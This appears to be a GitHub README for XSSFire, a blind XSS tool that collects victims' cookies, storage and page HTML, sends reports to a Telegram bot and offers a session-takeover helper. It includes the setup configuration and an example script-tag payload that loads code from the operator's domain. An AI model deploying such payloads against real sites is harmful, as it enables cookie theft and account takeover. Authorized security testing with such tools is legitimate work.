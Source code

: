 # XSSFire
A standalone Blind XSS Script.

# How it works:
The script is a combination between PHP and JavaScript, it captures the data using JS and send it to the script itself, then it generates report files and deliver them through telegram. 

# Requirements:
1. Web Server running on Linux with a domain and an SSL certificate.
2. Telegram account (To receive BXSS reports)

# Why Telegram?
Easy to setup.
Fast.
Reachable.

# Features:
1. Captures: IP, User-Agent, Date-Time, Local Storage, Session Storage, Cookies, Referrer, Origin, URL, HTML, If fired from an Iframe  
2. Session Builder: A JavaScript that can rebuild the session, open the captured URL and the devtools then paste it in the console and hit enter. If you're luck enough you can takeover the session.
3. Telegram Notifications: Faster and easier to setup than e-mails and more reachable.
4. Anti-Spam: You should only receive one/two notification for each captured URL. However, the script resets every once in a while to notify you again later.
5. Encryption: You can set a password in the script and the report you receive in telegram will be a zip file protected by a password. (Telegram bots are not using end-to-end encryption).
6. HTML Snapshot: Is an HTML file that will be delivered with the report, it should look similar to the page of your target.

# Setup:
1. Go to telegram and have a chat with the @botfather.
2. Write /start in the chat and create new bot.
3. You should receive your bot token when you create it.
4. Save the token aside.
5. Now go to your newly created bot chat and start it then say hi.
6. Then go to: `https://api.telegram.org/bot<bot_token>/getUpdates`
7. And save your chat id.
8. Open the XSSFire Script and modify the following lines:
```
$chat_id = "<Telegram Chat ID>"; // Your Telegram Chat ID
$token = "<Telegram Bot Access Token>"; // Your telegram Bot Access token
$password = False; //Protect the Blind XSS Report with a password. Leave as False if not used.
```
9. Upload the script to your server.

To generate payloads you might consider using the Blind-XSS-Manager https://github.com/SeifElsallamy/Blind-XSS-Manager
You can simply create payloads through this extension by entering yourdomain.com/XSSFire.js in the domain field and click Save.

Note: you can change the file name to index.php and upload it to your server main directory to make the payloads shorter, then the payload should look similar to this `<script src="https://yourdomain.com"></script>`.

# Snapshots:

<img width="578" alt="bxss" src="https://user-images.githubusercontent.com/11223632/210347560-fb24b4fb-9927-4973-8a39-42802c308601.png">
<img width="278" alt="bxss2" src="https://user-images.githubusercontent.com/11223632/210348003-c4d49ac0-62ea-4fca-8b4b-c2247bdd1c1d.png">
<img width="519" alt="bxss3" src="https://user-images.githubusercontent.com/11223632/210349607-c441ef6c-865b-4a89-b08f-f7d03c6ef5a8.png">

Thanks to GPT-3 xD
